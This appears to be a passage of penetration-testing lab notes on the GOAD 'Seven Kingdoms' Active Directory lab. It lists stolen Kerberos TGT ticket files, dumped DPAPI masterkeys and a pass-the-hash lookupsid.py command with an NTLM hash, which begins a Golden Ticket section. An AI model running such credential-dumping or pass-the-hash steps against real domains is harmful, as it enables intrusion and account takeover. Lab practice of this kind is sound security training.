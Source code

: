 ### Kerberos Tickets
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_77ebdaad_20250108035512.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_936064ee_20250108035512.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cd6de780_20250108072401.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d64496a2_20250108072401.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cbdc1708_20250108011355.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d6b61eec_20250108011355.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_63d16d9f_20250108071403.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_ff508b0c_20250108071403.kirbi`

### Masterkeys

```
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
```


# Golden Ticket

## Finding SID

`lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 NORTH/EDDARD.STARK@10.4.10.22`
